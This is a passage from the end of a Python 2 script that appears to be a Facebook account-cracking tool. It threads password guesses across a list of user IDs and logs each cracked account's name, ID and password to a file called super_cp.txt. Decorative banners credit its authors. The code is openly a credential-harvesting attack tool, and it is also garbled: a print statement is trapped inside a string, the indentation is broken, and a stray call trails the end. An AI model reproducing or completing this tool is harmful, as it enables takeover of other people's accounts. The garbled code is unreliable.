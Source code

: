 				                                                                                                   print '\x1b[1;93m[۩۞۩] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				                                                                                                   print '\x1b[1;93m[۩۞۩] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				                                                                                                   print '\x1b[1;93m[۩۞۩] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass9 + '\n'
				                                                                                                   cek = open("out/super_cp.txt", "a")
				                                                                                                   cek.write("ID:" +user+ " Pw:" +pass9+"\n")
				                                                                                                   cek.close()
				                                                                                                   cekpoint.append(user+pass9)		
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
#Dev:Babar_Ali
        print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mMehedi Hasan\033[1;95m-_-_-_-_-_-_-_-_-»"
	print '\033[1;94m[Process Has Been Completed]'
	print"\033[1;94mTotal\033[1;92mOK/\x1b[1;91mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;91m"+str(len(cekpoint))
	print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mMehedi Hasan\033[1;95m-_-_-_-_-_-_-_-_-»"
	print """
             
          ^^         |         ^^
          ::         |         ::
   ^^     ::         |         ::     ^^
   ::     ::         |         ::     ::
    ::     ::        |        ::     ::
      ::    ::       |       ::    ::
        ::    ::   _/~\_   ::    ::
          ::   :::/     \:::   ::
            :::::(       ):::::
                  \ ___ /
             :::::/`   `\:::::
           ::    ::\o o/::    ::
         ::     ::  :":  ::     ::
       ::      ::   ` `   ::      ::
      ::      ::           ::      ::
     ::      ::             ::      ::
     ^^      ::             ::      ^^
             ::             ::
             ^^             ^^

print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mMahmud\033[1;95m-_-_-_-_-_-_-_-_-»"
	
\033[1;94m██████╗░██╗░░░██╗███████╗
\033[1;94m██╔══██╗╚██╗░██╔╝██╔════╝
\033[1;94m██████╦╝░╚████╔╝░█████╗░░
\033[1;94m██╔══██╗░░╚██╔╝░░██╔══╝░░
\033[1;94m██████╦╝░░░██║░░░███████╗
\033[1;94m╚═════╝░░░░╚═╝░░░╚══════╝
"""
	print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mMahmud\033[1;95m-_-_-_-_-_-_-_-_-»"
	raw_input("\n\033[1;97m[\033[1;95mBack\033[1;97m]")
	menu()

if __name__ == '__main__':
	login()
gin()


